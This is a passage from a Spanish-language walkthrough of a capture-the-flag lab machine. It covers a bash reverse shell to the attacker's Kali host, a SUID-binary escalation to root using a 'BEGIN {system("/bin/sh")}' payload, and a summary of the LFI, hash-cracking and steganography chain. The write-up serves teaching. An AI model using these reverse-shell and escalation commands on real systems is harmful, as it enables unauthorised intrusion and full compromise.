- tu IP de Kali: `192.168.184.128`
- puerto: `4444`

📷 **Imagen 10 — Configuración de reverse shell**


Seleccionas:
- **Bash -i**

Y te genera algo como:

```bash
sh -i >& /dev/tcp/192.168.184.128/4444 0>&1
```

### Qué hace este comando

- `sh -i`  
  Lanza una shell interactiva.

- `>& /dev/tcp/192.168.184.128/4444`  
  Redirige salida estándar y error a una conexión TCP hacia tu Kali.

- `0>&1`  
  Redirige también la entrada estándar a esa misma conexión.

En resumen:
👉 la víctima abre una conexión hacia tu Kali y te entrega una shell interactiva.

Lo ejecutas desde la shell web y recibes la conexión en Penelope.

---

## 33) Revisar `.bash_history`

Ahora sí, toca lo importante:

```bash
cat .bash_history
```

Y aparecen comandos que **no has ejecutado tú**, por ejemplo:

```text
morpheus 'BEGIN {system("/bin/sh")}'
ls -l /usr/bin/morpheus
...
cat /root/flag.txt
...
```

### Por qué esto es oro puro

Porque el historial te está contando:
- qué binario fue usado,
- cómo se invocó,
- que ese binario permitió spawnear `/bin/sh`,
- y que con eso se llegó incluso a leer `/root/flag.txt`

Es decir, el historial te está dando prácticamente la **ruta exacta de privesc**.

---

## 34) Entender qué hace `morpheus 'BEGIN {system("/bin/sh")}'`

Ese formato recuerda al uso de herramientas tipo `awk`, donde se pueden ejecutar bloques `BEGIN { ... }`.

La idea aquí es que el binario `morpheus` permite evaluar o procesar ese tipo de sintaxis y acabar ejecutando:

- `/bin/sh`

Y si el binario tiene permisos especiales (por ejemplo SUID), entonces esa shell heredará privilegios altos.

---

## 35) Revisar permisos de `/usr/bin/morpheus`

Probamos:

```bash
ls -la /usr/bin/morpheus
```

Salida:

```text
-r-sr-x--- 1 root n30 662240 Dec  8  2018 /usr/bin/morpheus
```

### Interpretación detallada

Permisos:

- `-r-sr-x---`

Desglosado:
- propietario (`root`) → `r-s`
- grupo (`n30`) → `r-x`
- otros → `---`

### Lo importante de la `s`

La `s` en el bloque del propietario indica **SUID**.

Eso significa:
- cuando alguien con permisos de ejecución lanza ese binario,
- el proceso se ejecuta con el **UID efectivo del propietario**,
- y el propietario es `root`.

Además, como el grupo del binario es `n30` y el usuario `n30` tiene ejecución por grupo:
- `n30` puede ejecutarlo.

👉 Resultado:
- `n30` puede ejecutar un binario SUID de root

Y eso es una vía clarísima de escalada.

---

## 36) Reproducir el comando del historial

El propio historial nos decía cómo lanzarlo:

```bash
morpheus 'BEGIN {system("/bin/sh")}'
```

Lo ejecutas:

```bash
morpheus 'BEGIN {system("/bin/sh")}'
```

Y obtienes una shell:

```bash
# whoami
root
```

✅ Escalada conseguida.

---

## 37) Ir a `/root` y leer la flag

Una vez como root:

```bash
cd /root
ls
cat flag.txt
```

Y aparece la flag final en ASCII art.

Con esto, la máquina queda comprometida completamente.

---

## Conclusiones finales

Esta máquina deja varias lecciones muy buenas.

### 37.1 La LFI fue el pivote central
No era solo una curiosidad.  
La LFI permitió:
- leer `/etc/passwd`
- descubrir usuarios
- leer la configuración de nginx
- encontrar el `.htpasswd`
- y abrir la puerta al resto de la explotación

### 37.2 Cambiar de GET a POST fue clave
El parámetro existía, pero no se recogía desde la URL.  
Entender la diferencia entre:
- parámetros en **query string** (`GET`)
- y parámetros en **body** (`POST`)
fue justo lo que hizo funcionar el vector.

### 37.3 `robots.txt` sigue siendo una fuente de pistas
No protege nada.  
Pero sí reveló:
- `file_view.php`

y eso fue justo el punto de entrada.

### 37.4 La cadena de explotación fue muy de intuición + enumeración
No fue una sola vulnerabilidad directa.  
Hubo que:
- leer configuraciones
- crackear hashes
- revisar source code
- encontrar una imagen comentada
- pensar en stego con la palabra `n30`
- y luego usar credenciales en otro servicio

### 37.5 `.bash_history` regaló la privesc
Aquí la escalada final fue prácticamente un regalo del autor:
- el historial mostraba el binario
- mostraba el payload
- y hasta evidenciaba que se había llegado a `/root/flag.txt`

### 37.6 Entender SUID sigue siendo obligatorio
No basta con ver una `s`.  
Hay que entender:
- quién es el propietario del binario,
- quién puede ejecutarlo,
- y qué ocurre cuando el binario llama a una shell del sistema.

---

## Resumen técnico de la ruta de explotación

1. Configuración en NAT
2. `ip a` para identificar la IP de Kali
3. `nmap -sn` para descubrir la víctima
4. Escaneo completo con Nmap
5. Revisión de servicios web y ShellInABox
6. Detección de `file_view.php` en `robots.txt`
7. Descubrimiento de LFI por POST
8. Lectura de `/etc/passwd`
9. Lectura de `/etc/nginx/sites-available/default`
10. Hallazgo de `/var/www/p4ss/.htpasswd`
11. Crackeo del hash de `Tr1n17y`
12. Acceso al 1337 con Basic Auth
13. Revisión de source code y hallazgo de `h1dd3n.jpg`
14. Esteganografía con `steghide` usando `n30`
15. Obtención de `P4$$w0rd`
16. Login como `n30` en ShellInABox
17. Reverse shell a Kali con Penelope
18. Enumeración local
19. Revisión de `.bash_history`
20. Identificación de `/usr/bin/morpheus`
21. Verificación de SUID
22. Ejecución de `morpheus 'BEGIN {system("/bin/sh")}'`
23. Escalada a root
24. Lectura de `/root/flag.txt`

---

## Estado del laboratorio

✅ Máquina completada  
✅ Root conseguido  
✅ Flag final leída  
✅ Ruta documentada paso a paso
